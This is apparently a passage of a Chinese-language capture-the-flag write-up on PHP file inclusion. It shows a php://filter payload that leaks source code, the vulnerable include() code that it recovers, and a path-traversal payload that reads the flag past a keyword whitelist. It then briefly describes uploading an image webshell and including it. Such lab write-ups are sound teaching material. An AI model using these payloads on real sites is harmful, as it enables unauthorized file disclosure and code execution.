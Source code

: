 所以改成这样就可以读到index.php的内容：`?category=php://filter/read=convert.base64-encode/resource=index`

base64解码得到：

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

也就是说category里面要有woofers meowers index

```
?category=php://filter/read=convert.base64-encode/resource=index/../flag
```

因为相对路径是计算出来的，中间目录如果不存在也没关系

## 文件上传+文件包含

制作一个图片马，上传成功：

![image-20250918092820851](assets/image-20250918092820851.png)

文件包含然后读取flag：

![image-20250918092842530](assets/image-20250918092842530.png)
